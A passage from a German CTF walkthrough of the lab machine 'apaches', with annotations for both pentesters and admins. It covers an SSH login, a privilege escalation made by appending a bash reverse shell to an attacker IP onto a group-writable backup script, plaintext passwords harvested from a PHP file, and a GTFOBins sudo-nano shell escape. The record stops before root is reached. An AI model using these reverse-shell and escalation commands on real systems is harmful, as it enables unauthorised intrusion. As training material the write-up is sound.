^@@@@@&@#~7G5J7~::.:^~?JJ7~::^^~~~?B@@@@@&
&J!7?P#@B@@@B!:!?77???7!~~!!?J5PPP5YJ??YPYJ~.
?P :?B@&#@#?7!^^~?55Y7^:.. .^?J5Y^
?B^^^::.. ~G&@#YP#&@B!....::::^~75B&@@@@#G!
:&~J?P&@@G?7!^..BG!~7B@#5J7!!7?JPGBB#BB&&@@B^
!5 ##J?PY :JP& .@&G5JY5GG57^:... .~YBJ
~5 :P7!^ ..^ ~@P~~~BB7^:. .:~5G! .:!5B&@G!!.
.P ~PGB#5 P:5!B&7~:Y&#&B&&#GPY7!!?5B@@&G:
Y7 ^^ .5GGB! 5~!7:7!G:. 7B7?~^^?G#P!....:GP
.~^JJ^ . .G #..J ##! J#~..:. .7P#?^:.
!Y:^. ?. ~Y & 7 PJ!P7^@@&Y!^^. .J&Y
P! ~P @. : Y& 5GPJ#??~~?#G!!!7.
!? ^?J&.#J B##: . B7:. 5^
!!^.:!PP^ !G!&. 5^7?J ?#:~~^.:B^
.::..!? .!JG. &^ BG~.:@ .
JG!!^..5YYG5^ &..~Y&
.G...^?~ . JB! .
.G!7!:
squanto@apaches.ctf's password: (iamtheone)
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-128-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Fri 30 May 2025 11:09:25 PM UTC
System load: 0.05
Usage of /: 24.7% of 39.07GB
Memory usage: 35%
Swap usage: 0%
Processes: 144
Users logged in: 0
IPv4 address for enp0s3: 192.168.2.207
IPv6 address for enp0s3: 2003:d4:c725:3e6c:a00:27ff:feb2:79a9
* Ubuntu 20.04 LTS Focal Fossa will reach its end of standard support on 31 May
For more details see:
https://ubuntu.com/20-04
151 updates can be installed immediately.
3 of these updates are security updates.
To see these additional updates run: apt list --upgradable
*** System restart required ***
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
squanto@apaches:~$
Analyse: Ich melde mich per SSH als Benutzer `squanto` mit dem geknackten Passwort `iamtheone` an. Der Login ist erfolgreich, und ich erhalte eine Shell auf dem System.
Bewertung: Der Zugriff als Benutzer `squanto` ist etabliert. Dies ist ein weiterer Fortschritt. Das System ist ein Ubuntu 20.04 LTS.
Empfehlung (Pentester):
Führen Sie Enumerationsschritte als `squanto` durch: Überprüfen Sie `sudo -l`, SUID-Dateien, Cronjobs und das Home-Verzeichnis von `squanto`.
Empfehlung (Admin):
Die Notwendigkeit starker Passwörter und die Korrektur der `/etc/shadow`-Berechtigungen wurden bereits erwähnt.
total 40 drwxr-xr-x 5 squanto squanto 4096 May 30 23:09 . drwxr-xr-x 6 root root 4096 Oct 9 2022 .. drwxrwxr-x 2 squanto squanto 4096 Oct 10 2022 backup -rw------- 1 squanto squanto 0 Oct 10 2022 .bash_history -rw-r--r-- 1 squanto squanto 220 Oct 9 2022 .bash_logout -rw-r--r-- 1 squanto squanto 3771 Oct 9 2022 .bashrc drwx------ 2 squanto squanto 4096 May 30 23:09 .cache drwxrwxr-x 3 squanto squanto 4096 Oct 9 2022 .local -rw-r--r-- 1 squanto squanto 807 Oct 9 2022 .profile -rw-rw-r-- 1 squanto squanto 156 Oct 10 2022 todo.md -rw------- 1 squanto squanto 2070 Oct 9 2022 user.txt
______ _ __ _
| ____| | / _| | |
| |__ | | __ _ __ _ ___ | |_ ___ __ _ _ _ __ _ _ __ | |_ ___
| __| | |/ _` |/ _` | / _ \| _| / __|/ _` | | | |/ _` | '_ \| __/ _ \
| | | | (_| | (_| | | (_) | | \__ \ (_| | |_| | (_| | | | | || (_) |
|_| |_|\__,_|\__, | \___/|_| |___/\__, |\__,_|\__,_|_| |_|\__\___/
__/ | | |
|___/ |_|
@@@@@@@@&@&@@&&@&&&&&&&&&&&&&&&&&&&&&&%&%#%%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@&@&@&@&@&&&&&&&&&&&&&&&&&&&&&&&&&&#%%%%&&%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%#(%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&&&@&@&&&&&&&&&&&&&&&&&&&&&&&&&&#((#%#&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&@&&&&&&&&&&&&&&&&&&&&&&&%((//..(*,/,,*.%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@&@@&&&&&&&&&&&&&&&&&&&&&&&##%#(/&&&&&%#//, &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&&&&&&&&&&&&&&&&&((((*&&&%&%%#%((/(( ./&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&@&&&&&&&&&&&&&&&&%(((//&&&&&#/#(/*//(/( ..&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&&&&&&&&&&&&&&&#(//%%&&*../%(,.*. .(/( ..&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&&&&&&&@&&&&&&&&&&//*(&%%#/#%&&//**(//(// .&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@@@@&@&&&&&&&&&&(,,*&@&&&&&%%&&(/,((((//( /&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&&&&&&&&&&&&&&&&&(. ##%&&/&&(#*,. /,///// &&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@&&&&&&&&&&&&&&&&&, %##%%&&&/**.,**//(///,#&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&@&&&&&&&&&&&&&&(,/%%%&&&&&%((**//*/(/ /&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@&&@@@&@&&&&&&&&&&&&%*,.#%#&&&#*////**. .%&&&&&&&&&&&&&&&&&&&@&&&&&
@@@@@@@@@@@&@&@&@&&&&&&&&&&%#&** /%#/*,(..,.. ...*&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&@@@&@@&&&&&&&&@@&#/.**%&%##(*,. .. .,//&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&@&@&@&@@&&@@&&@&&&%( %%(&%&%#((%%**@*,.,.,,//,&&&&&&@&&@&&&&&&&&&&&&&&
Well done!
total 8
drwxrwxr-x 2 squanto squanto 4096 Oct 10 2022 .
drwxr-xr-x 5 squanto squanto 4096 May 30 23:09 ..
pkexec version 0.105
Analyse: Im Home-Verzeichnis von `squanto`: - `ls -la`: Zeigt u.a. die Dateien `todo.md` und `user.txt` sowie ein Verzeichnis `backup`. - `cat user.txt`: Gibt die User-Flag aus, die aus ASCII-Art und dem Text "Well done!" besteht. (Die eigentliche Flag-Zeichenkette ist hier nicht direkt sichtbar, aber der Kontext impliziert, dass dies die User-Flag ist). - `cd backup/ ; ls -la`: Das Backup-Verzeichnis ist leer. - `/usr/bin/pkexec --version`: Zeigt die Version von `pkexec` (0.105). Dies ist relevant, da ältere Versionen von `pkexec` für die Schwachstelle CVE-2021-4034 (PwnKit) anfällig sind. Version 0.105 ist jedoch bereits gepatcht.
Bewertung: Die User-Flag wurde gefunden. Das Backup-Verzeichnis von `squanto` ist leer und liefert keine weiteren Hinweise. Die `pkexec`-Version ist nicht für PwnKit anfällig.
Empfehlung (Pentester):
Da PwnKit nicht anwendbar ist, müssen andere Vektoren für die Privilegienerweiterung gesucht werden. Untersuchen Sie Cronjobs, `sudo -l` (obwohl es für `daemon` nichts ergab, könnte es für `squanto` anders sein, ist aber unwahrscheinlich ohne Passwortänderung) und andere Konfigurationen.
Empfehlung (Admin):
Stellen Sie sicher, dass alle Systemkomponenten, einschließlich `polkit` (`pkexec`), auf dem neuesten Stand sind, um bekannte Schwachstellen zu vermeiden.
SHELL=/bin/sh
#* 5 * * * * su sacagawea -c "./home/sacagawea/Scripts/backup.sh"
#!/bin/bash
rm -rf /home/sacagawea/Backup/Backup.tar.gz
tar -czvf /home/sacagawea/Backup/Backup.tar.gz /usr/local/apache2.4.49/htdocs
chmod 700 /home/sacagawea/Backup/Backup.tar.gz
Analyse: 1. `grep sh /etc/crontab`: Sucht nach Zeilen, die "sh" enthalten, in der System-Crontab. Ein auskommentierter Cronjob wird gefunden: `#* 5 * * * * su sacagawea -c "./home/sacagawea/Scripts/backup.sh"`. Obwohl auskommentiert, gibt er einen Hinweis auf ein Skript `/home/sacagawea/Scripts/backup.sh`, das als Benutzer `sacagawea` ausgeführt werden soll(te). 2. `cat /home/sacagawea/Scripts/backup.sh`: Zeigt den Inhalt dieses Backup-Skripts. Es erstellt ein Tar-Archiv des Verzeichnisses `/usr/local/apache2.4.49/htdocs` und speichert es als `/home/sacagawea/Backup/Backup.tar.gz`. Anschließend werden die Berechtigungen des Archivs auf `700` gesetzt.
Bewertung: Der Cronjob selbst ist nicht aktiv, aber das Skript `/home/sacagawea/Scripts/backup.sh` existiert. Die Berechtigungen dieses Skripts und die Möglichkeit, es zu modifizieren, sind nun entscheidend.
Empfehlung (Pentester):
Überprüfen Sie die Berechtigungen der Datei `/home/sacagawea/Scripts/backup.sh`. Wenn der Benutzer `squanto` (oder eine Gruppe, der `squanto` angehört) Schreibrechte auf dieses Skript hat, kann es modifiziert werden, um eine Reverse Shell oder einen anderen Payload einzufügen. Da der Cronjob auskommentiert ist, muss das Skript auf andere Weise ausgeführt werden (z.B. wenn `sacagawea` sich einloggt und es manuell startet oder ein anderer Mechanismus es auslöst), oder man muss hoffen, dass `sacagawea` das modifizierte Skript ausführt. Alternativ, wenn `squanto` Mitglied der Gruppe ist, der das Skript gehört und die Gruppe Schreibrechte hat, ist das der Weg.
Empfehlung (Admin):
Stellen Sie sicher, dass Skripte, die von Cronjobs (auch auskommentierten, die als Vorlage dienen könnten) oder anderen automatisierten Prozessen ausgeführt werden, keine unsicheren Berechtigungen haben. Schreibrechte sollten nur dem Eigentümer (und ggf. einer vertrauenswürdigen administrativen Gruppe) vorbehalten sein. Entfernen Sie nicht benötigte oder auskommentierte Cronjobs, um Verwirrung und potenzielle Fehlkonfigurationen zu vermeiden.
-rwxrwx--- 1 sacagawea Lipan 182 Oct 10 2022 /home/sacagawea/Scripts/backup.sh
uid=1001(squanto) gid=1001(squanto) groups=1001(squanto),1004(Lipan)
#!/bin/bash
rm -rf /home/sacagawea/Backup/Backup.tar.gz
tar -czvf /home/sacagawea/Backup/Backup.tar.gz /usr/local/apache2.4.49/htdocs
chmod 700 /home/sacagawea/Backup/Backup.tar.gz
/bin/bash -i >& /dev/tcp/192.168.2.199/4448 0>&1
listening on [any] 4448 ...
Analyse: 1. `ls -la /home/sacagawea/Scripts/backup.sh`: Zeigt die Berechtigungen des Skripts. Es gehört `sacagawea` und der Gruppe `Lipan`. Die Berechtigungen sind `-rwxrwx---`, was bedeutet, dass der Eigentümer (`sacagawea`) und die Gruppe (`Lipan`) Lese-, Schreib- und Ausführungsrechte haben. 2. `id`: Zeigt, dass der Benutzer `squanto` Mitglied der Gruppe `Lipan` (GID 1004) ist. **Dies ist der Schlüssel!** Da `squanto` Mitglied der Gruppe `Lipan` ist und die Gruppe Schreibrechte auf das Skript hat, kann `squanto` das Skript modifizieren. 3. `nano /home/sacagawea/Scripts/backup.sh`: Ich editiere das Skript und füge am Ende die Zeile `/bin/bash -i >& /dev/tcp/192.168.2.199/4448 0>&1` hinzu. Dies ist ein Befehl für eine Bash-Reverse-Shell zu meinem Angreifer-System (192.168.2.199) auf Port 4448. 4. Auf meinem Angreifer-System starte ich einen Netcat-Listener auf Port 4448: `nc -lvnp 4448`.
Bewertung: Dies ist ein klassischer Fall von Privilegienerweiterung durch unsichere Dateiberechtigungen in Kombination mit einem Skript, das von einem anderen Benutzer (hier `sacagawea`) ausgeführt wird (oder werden könnte). Da der Cronjob auskommentiert war, muss man darauf warten oder hoffen, dass `sacagawea` dieses Skript ausführt. Der Text "1 Minute warten...." impliziert, dass der auskommentierte Cronjob möglicherweise doch nicht ganz auskommentiert war oder es einen anderen Mechanismus gibt, der das Skript regelmäßig ausführt.
Empfehlung (Pentester):
Warten Sie, bis der Cronjob (oder ein anderer Mechanismus) das modifizierte Skript als `sacagawea` ausführt. Wenn die Reverse Shell eingeht, haben Sie Zugriff als `sacagawea`.
Empfehlung (Admin):
Dateiberechtigungen müssen strikt nach dem Prinzip der geringsten Rechte vergeben werden. Wenn ein Skript von einem Benutzer (`sacagawea`) ausgeführt wird, sollten andere Benutzer (wie `squanto`) keine Schreibrechte darauf haben, auch nicht über Gruppenmitgliedschaften, es sei denn, dies ist explizit so gewollt und das Risiko verstanden. Überprüfen Sie die Notwendigkeit der Gruppenmitgliedschaft von `squanto` in `Lipan` und die Schreibrechte der Gruppe `Lipan` auf dieses Skript.
listening on [any] 4448 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.207] 33158 bash: cannot set terminal process group (146197): Inappropriate ioctl for device bash: no job control in this shell sacagawea@apaches:~$
Analyse: Nachdem eine Minute gewartet wurde, geht auf dem Netcat-Listener die Verbindung vom Zielserver ein. Ich erhalte eine Shell als Benutzer `sacagawea`.
Bewertung: Erfolg! Der Plan hat funktioniert. Das modifizierte `backup.sh`-Skript wurde als `sacagawea` ausgeführt und hat eine Reverse Shell aufgebaut. Ich habe nun Zugriff als Benutzer `sacagawea`.
Empfehlung (Pentester):
Führen Sie Enumerationsschritte als `sacagawea` durch, insbesondere `sudo -l`, um nach weiteren Wegen zur Root-Eskalation zu suchen.
Empfehlung (Admin):
Die vorherigen Empfehlungen bezüglich Dateiberechtigungen und Cronjob-Sicherheit gelten.
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
Analyse: Als `sacagawea` versuche ich `sudo -l` auszuführen. Die Shell meldet jedoch: "sudo: a terminal is required to read the password...". Dies liegt daran, dass die einfache Reverse Shell keine vollwertige TTY (Teletypewriter, also ein richtiges Terminal) bereitstellt, die `sudo` benötigt, um das Passwort sicher einzulesen.
Bewertung: Dies ist eine häufige Einschränkung bei einfachen Reverse Shells. Es bedeutet nicht unbedingt, dass `sacagawea` keine `sudo`-Rechte hat, sondern nur, dass `sudo` in dieser Shell nicht wie gewohnt funktioniert.
Empfehlung (Pentester):
Versuchen Sie, die Shell zu einer vollwertigen TTY aufzuwerten. Gängige Methoden sind:
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `script /dev/null -c bash`
- `stty raw -echo; fg` (und dann `reset` und `export TERM=xterm` in der neuen Shell)
Wenn eine TTY vorhanden ist, versuchen Sie `sudo -l` erneut. Suchen Sie parallel nach dem Passwort von `sacagawea` (z.B. im heruntergeladenen `Backup.tar.gz`).
Empfehlung (Admin):
Dies ist eher ein operatives Problem für den Angreifer. Aus Verteidigersicht ist es gut, wenn Angreifer nur limitierte Shells haben.
total 48 drwxr-xr-x 6 sacagawea sacagawea 4096 Jul 13 2023 . drwxr-xr-x 6 root root 4096 Oct 9 2022 .. drwxrwxr-x 2 sacagawea sacagawea 4096 May 30 23:34 Backup -rw------- 1 sacagawea sacagawea 0 Oct 10 2022 .bash_history -rw-r--r-- 1 sacagawea sacagawea 220 Oct 9 2022 .bash_logout -rw-r--r-- 1 sacagawea sacagawea 3771 Oct 9 2022 .bashrc drwxrwxr-x 7 sacagawea sacagawea 4096 Oct 10 2022 Development drwxrwxr-x 3 sacagawea sacagawea 4096 Oct 10 2022 .local -rw-r--r-- 1 sacagawea sacagawea 807 Oct 9 2022 .profile drwxrwxr-x 2 sacagawea sacagawea 4096 Oct 10 2022 Scripts -rw-rw-r-- 1 sacagawea sacagawea 66 Oct 10 2022 .selected_editor -rw-rw---- 1 sacagawea sacagawea 5899 Jul 13 2023 user.txt
_____ _ __
| ___| | __ _ __ _ ___ / _| ___ __ _ ___ __ _ __ _ __ ___ _____ __ _
| |_ | |/ _` |/ _` | / _ \| |_ / __|/ _` |/ __/ _` |/ _` |/ _` \ \ /\ / / _ \/ _` |
| _| | | (_| | (_| | | (_) | _| \__ \ (_| | (_| (_| | (_| | (_| |\ V V / __/ (_| |
|_| |_|\__,_|\__, | \___/|_| |___/\__,_|\___\__,_|\__, |\__,_| \_/\_/ \___|\__,_|
|___/ |___/
****(************************************,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,.*,,,,,,
... (ASCII-Art gekürzt) ...
#%%%%%%%%%%%%&&&&&&&%(/,,,**////(((((***(#&&%%%%%%%%%%%%%%%%%#/***,,,,,,,,,,,,,,,,,,,,,,,,
##%%%%%%%%%%%%%&&&&&%#(//***////((((***//#%&&%%%%%%%%%%%%%(%#,*/**,,,,,,,,,,,,,,,,,,,,,,,,
###%%%%%%%%%%%%%&%%#(#((/*,//////(/******/##//%%%%%%%%%%%%%*,,,/***,,,,,,,,,,,,,,,,,,,,,,,
####%%%%%%%%%%%%%%%*((//(,#///////////(#%#%%%%&&%%%%%%%%#%%%,,*/*,,,,,,,,,,,,,,,,,,,,,,,,,
#####%%%%%%%%%&%%%.//#(/,.%%/////*,,,*,**((#%%%%%%%%%%%(%%/%,,*(*,,,,,,,,,,,,,,,,,,,,,,,,,
#####%%%%%%%%%&%,*(###(*%%%&&#//*****/(####%%%%%%%%%%%/,%#,,,,,/*,,,,,,,,,,,,,,,,*,,,,,,,,
######%%%%%%%%&((####(*#%%%#*,,,******//*((###%%%%%%#*,/%%/,,,,/,,,,,,,,,,,,,,,,,,,,,,,,,,
######%%%%%%%%(,(#//,*,%%%#*,*,.,,***/((#########.//#/(%%%((,,,,*,,,,,,,,,,,,,,,,,,,,,,,,,
#######%%%%%%,,##(%#/%&%%/*,*,,.,*###(**///(,,,,,*((#/%%&(,,,,,,(###%&&&,*,,,,,,,,,,,,,,,,
########%%%%,/#%#%%%,(//*,,**,..,,,,,,,,,,/%,,,,/#%##&%&#,,,,,**/*/%#%(&%#**,,,,,,,,,,,,,,
#########(/,,*,/%%&,,*,**,*,/,,,,,,,,,,*/,##**,#*%#%%%&&#/(,,.,*/***/*(%##%%/(%//%#*,,,,,,
######(,,,,,,####%,,*///,/*,,,,,,,*,,,##%***,(/#*#((&&&&&/*,,,,,,,***,%%//(%%%%%%%(#&,*,,*
(###/,,,,,,,##%%&.,*,#///(,(/,,,,,*,***//**./*##(#(#%%%%&****,,*,,,**,#%%***//(%(%/%#,,,,*
###*,,,,,,,#%#&%#,*,#(#/%#((#&,*****///,&%(%(%%#,#*&&&&&*/*/*,,.,,,**///*,*,**///%(%/%/*,,
((,,,,,.,,/**/%%,*,##%(%%/(%&*,,**//(/*,,%*%%%/#(#%&&&(&***,,,,,.,**////*,,,**///,##(#%%%%
/,,.,,,,,##(%&,,,,#/%%/%/(#%*,,,**///*,%(.%#%%%,/#%(&&#&,*/*,,,..,,*////*,,,,/,%%*//%%(///
.,,...,,,#(%%(,**(/%%#%%#%%%,,**///*,%%,.#*/%#,*#((&(###,/,,.,...*,.,///*,,,*/,(%,*(###%(/
,,....,,/#(%%,(/(##&%#%*/%*%.,*///*%#(.#%.%/%%*(&&,&%%#*,,,,,,,.,/,..,/,#%/,**,,,,*/###%##
.,,,,,,,(*/(#/(((%&*####/%#%(,//,,%%&*&(#%,/#//%%%&&%&%,*,,.,,,,.*/.,,/*,,,,//,,,.#%(%%%%&
*(,,,,*(%(#/(/,(#%.%#%/##%,&,*/*%%/%&.%(%/%%#,##((##%&#,/,/,.,*,/,/,.,*/*,,*/,,,,,#%&%%%%&
.,,*,,###%#(#*#(%&&#%%#(%&,%,*%&*%&,,#(%,%(%//&(&&&%%%&*(,*,,,,,*,*/.,**,,,*/.,,,*///%%%#&
,,,,,,/#%%*(,(##%//#(,/,(**/#///(/((%*%%/%*%*#&&&%&&,%/,#,,(/.,,.,,/,,,*,*****,,*///#%%%%%
,,,,/#*#(###%%#&/&#%(%/%&,%/,%&#%,%%*&&*%,%**(%&&&&&,&(,#,*,,,,,,*(*/,,,%%/*,*,*//((#%%%%%
,/,#(#%#%#%%#%&%&#%%%&%&,#&,%&(%&*%&&&/%&%%/%%(%##%%&&*%&,,/*,,*/,***,,(#%(,,,*/(((,%%%(%&
,.((%%#%#%%#%%&%&%&%&%&&%&%(&%%&,%&/%&%&(%%%&(%&&&&/&&(&%/(/(*,*(%,//,,,*,,,%%*(((,#%%&#&&
,*/#%%%#%##%#%#&%&#&&(&&,&&%&&%&%&&(&%&&*&&&&&&&&&&(%&/#///,,,/%%(/*,*,,/%%&(((////%%/%%
(/%(###%(%%#&#%#&&&&%&/&&(&&#%&(&&%&%&&%%#%(&&&&&&%&&%&&%&(/*(,*/(*//*,,,,,,*(((,#&/*%%%##
#%((#%%#%#%%%%&%&%&%&&%&&(&&%&%%&#&&%&#&&/&&#%%%&&&&%&&%&&#(/((,,**(/*,,,,**,#%,,%%//%%%%#
%###%#%%#%#%#%#%(&%&&(&&,%&%&&%&&%&#&&%&%%%&%&&&&&&&%&&%&&%(/*,***/((/,,,,*,,#%%,**%%%%&%#
(####%#%%%%#%%%&%&%&#%%%%&%%&(&&%&&%&(%%(&&&&&&&&&&%%&%%&%&&*(#/(///(&%%,/,.#%*%%*,,,/&&##
(/(##(%/%(%#&(&/%(&&#&&*%&%&&%&#&&#&&%%##%#%%&&&%&&%&&%&&%&&///*,,/,(%,,,*,,(&****,,,*%&#*
##%/%##%(%/%(&#%&%&*%&*%&(%&*&&%&%%&*%%*%%&&&%&&&&&&&#&&#&&*******,,,(,,,**//***,,,,,*%%#*
,,,,****(&#&/&/&*%#%&/*&&#&#%&,%&/&%/%%#&&%&&&&(&&(&&%&&%&&,,/(,**,,,,,,*****,,,,,,,,**%**
(%%(%/%*%,&,%(%/(/**#/#&*&&*&##&*%&,%%&&&&&&&&&#&%%&(%&(&&,,,*,,*,,,,,,,****,,,,,,,,,,(#*,
You are on fire!!
Flag: FlagsNeverQuitNeitherShouldYou
Analyse: Als `sacagawea` untersuche ich das Home-Verzeichnis. - `ls -la`: Zeigt diverse Verzeichnisse wie `Backup`, `Development`, `Scripts` und die Datei `user.txt`. - `cat user.txt`: Gibt den Inhalt der `user.txt` aus. Diese enthält wieder ASCII-Art, den Text "You are on fire!!" und die Flag: `FlagsNeverQuitNeitherShouldYou`.
Bewertung: Dies ist eine weitere User-Flag, diesmal für den Benutzer `sacagawea`. Es scheint, dass diese Maschine mehrere Benutzer-Flags hat.
Empfehlung (Pentester):
Sammeln Sie alle Flags. Fahren Sie mit der Enumeration als `sacagawea` fort. Überprüfen Sie das `Development`-Verzeichnis und das `Scripts`-Verzeichnis genauer. Untersuchen Sie den Inhalt des zuvor heruntergeladenen `Backup.tar.gz` von `sacagawea`.
Empfehlung (Admin):
Keine spezifischen neuen Empfehlungen, die nicht schon für andere Benutzer galten.
uid=1002(sacagawea) gid=1002(sacagawea) groups=1002(sacagawea),1004(Lipan)
Analyse: Der `id`-Befehl bestätigt erneut die aktuelle Benutzeridentität als `sacagawea` und die Gruppenzugehörigkeit, einschließlich der Gruppe `Lipan`.
Bewertung: Die Gruppenzugehörigkeit `Lipan` war entscheidend für die vorherige Privilegienerweiterung von `squanto` zu `sacagawea` (durch Schreibrechte auf das `backup.sh`-Skript). Es ist gut, dies im Hinterkopf zu behalten, falls die Gruppe `Lipan` weitere spezielle Rechte hat.
Empfehlung (Pentester):
Untersuchen Sie, welche anderen Dateien oder Verzeichnisse der Gruppe `Lipan` gehören und welche Berechtigungen diese Gruppe hat.
Empfehlung (Admin):
Überprüfen und beschränken Sie Gruppenberechtigungen nach dem Prinzip der geringsten Rechte.
// (A) START SESSION
session_start();
// (B) HANDLE LOGIN
if (isset($_POST["user"]) && !isset($_SESSION["user"])) {
// (B1) USERS & PASSWORDS - SET YOUR OWN !
$users = [
"geronimo" => "12u7D9@4IA9uBO4pX9#6jZ3456",
"pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl",
"squanto" => "4Rl3^K8WDG@sG24Hq@ih",
"sacagawea" => "cU21X8&uGswgYsL!raXC"
];
Analyse: Ich untersuche das Verzeichnis `/home/sacagawea/Development/admin/` (dieser Pfad wird hier impliziert oder wurde durch vorherige Navigation erreicht). Dort finde ich eine PHP-Datei `2-check.php`. Der Inhalt dieser Datei zeigt ein PHP-Array `$users`, das Benutzernamen und die zugehörigen Passwörter im Klartext enthält: - `geronimo => 12u7D9@4IA9uBO4pX9#6jZ3456` - `pocahontas => y2U1@8Ie&OHwd^Ww3uAl` - `squanto => 4Rl3^K8WDG@sG24Hq@ih` (interessanterweise ein anderes Passwort als das, mit dem wir uns als `squanto` eingeloggt haben: `iamtheone`) - `sacagawea => cU21X8&uGswgYsL!raXC`
Bewertung: Dies ist ein massiver Fund! Klartext-Passwörter in einer Quellcodedatei sind eine schwerwiegende Sicherheitslücke. Wir haben nun potenziell die Passwörter für `geronimo`, `pocahontas`, `squanto` (ein alternatives) und `sacagawea`. Das Passwort für `sacagawea` ist besonders interessant, da wir als dieser Benutzer agieren und dies für `sudo -l` (falls eine TTY vorhanden ist) nützlich sein könnte. Das Passwort für `geronimo` ist das nächste Ziel.
Empfehlung (Pentester):
Versuchen Sie, sich mit dem gefundenen Passwort für `sacagawea` (`cU21X8&uGswgYsL!raXC`) eine vollwertige TTY zu verschaffen und dann `sudo -l` auszuführen.
Versuchen Sie, sich als Benutzer `pocahontas` mit dem Passwort `y2U1@8Ie&OHwd^Ww3uAl` per SSH anzumelden.
Versuchen Sie, sich als Benutzer `geronimo` mit dem Passwort `12u7D9@4IA9uBO4pX9#6jZ3456` per SSH anzumelden.
Empfehlung (Admin):
Speichern Sie niemals Passwörter im Klartext im Quellcode. Verwenden Sie stattdessen gehashte Passwörter (mit Salt) und sichere Methoden zur Passwortüberprüfung. Führen Sie Code-Reviews durch, um solche Vorkommnisse zu finden und zu beheben. Implementieren Sie Secrets-Management-Lösungen für die Speicherung von Anmeldeinformationen.
Password: (y2U1@8Ie&OHwd^Ww3uAl) pocahontas@apaches:/home/sacagawea/Development/admin$ id uid=1003(pocahontas) gid=1003(pocahontas) groups=1003(pocahontas)
Analyse: Als `sacagawea` wechsle ich mit `su pocahontas` zum Benutzer `pocahontas`. Ich verwende das Passwort `y2U1@8Ie&OHwd^Ww3uAl`, das in `2-check.php` gefunden wurde. Der Wechsel ist erfolgreich, was durch den neuen Prompt `pocahontas@apaches:...` und die Ausgabe von `id` bestätigt wird.
Bewertung: Erfolgreicher Wechsel zum Benutzer `pocahontas`. Nun müssen die Berechtigungen dieses Benutzers untersucht werden.
Empfehlung (Pentester):
Führen Sie `sudo -l` als `pocahontas` aus. Untersuchen Sie das Home-Verzeichnis von `pocahontas`.
Empfehlung (Admin):
Die vorherigen Empfehlungen zur Passwortsicherheit gelten.
[sudo] password for pocahontas: (y2U1@8Ie&OHwd^Ww3uAl) Matching Defaults entries for pocahontas on apaches: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User pocahontas may run the following commands on apaches: (geronimo) /bin/nano
Analyse: Als Benutzer `pocahontas` führe ich `sudo -l` aus. Nach Eingabe des Passworts `y2U1@8Ie&OHwd^Ww3uAl` zeigt die Ausgabe, dass `pocahontas` den Befehl `/bin/nano` als Benutzer `geronimo` ausführen darf, ohne weitere Passwortabfrage für den `sudo`-Befehl selbst (da `-l` das Passwort bereits abgefragt hat, aber für die Ausführung von `nano` als `geronimo` wäre es `NOPASSWD`, wenn es nicht implizit durch die sudo-Regel abgedeckt wäre).
Bewertung: Dies ist ein klarer Weg zur Privilegienerweiterung zum Benutzer `geronimo`! `nano` ist ein Texteditor, und wenn er mit `sudo` als ein anderer Benutzer ausgeführt werden kann, gibt es oft Möglichkeiten, über den Editor eine Shell dieses anderen Benutzers zu erlangen (siehe GTFOBins).
Empfehlung (Pentester):
Nutzen Sie diese `sudo`-Regel, um als `geronimo` eine Shell zu bekommen. Eine gängige Methode für `nano` (wie auf GTFOBins dokumentiert) ist:
1. Führen Sie `sudo -u geronimo /bin/nano` aus.
2. In `nano`, drücken Sie `Strg+R` (Read File) und dann `Strg+X` (Execute Command).
3. Geben Sie einen Befehl ein, der eine Shell startet, z.B. `reset; sh 1>&0 2>&0` oder einfach `/bin/bash`.
Empfehlung (Admin):
Gewähren Sie `sudo`-Berechtigungen sehr restriktiv. Wenn ein Benutzer einen Editor als ein anderer Benutzer ausführen darf, ist dies fast immer ein Weg zur vollständigen Übernahme dieses anderen Benutzerkontos. Vermeiden Sie solche Regeln. Wenn ein Benutzer Dateien eines anderen Benutzers bearbeiten muss, gibt es sicherere Methoden (z.B. temporäre Rechtevergabe, spezielle Skripte mit strikter Eingabevalidierung).
https://gtfobins.github.io/gtfobins/nano/#sudo
sudo nano
^R^X
reset; sh 1>&0 2>&0
Analyse: Dieser Block zeigt den Link zu GTFOBins für `nano` und die dort beschriebene Methode zur Eskalation, wenn `nano` mit `sudo` ausgeführt werden kann: `Strg+R`, `Strg+X` und dann `reset; sh 1>&0 2>&0` eingeben.
Bewertung: Dies bestätigt den geplanten Angriffsweg.
Empfehlung (Pentester):
Führen Sie die auf GTFOBins beschriebenen Schritte aus.
Empfehlung (Admin):
Siehe vorherige Empfehlung zur `sudo nano`-Regel.
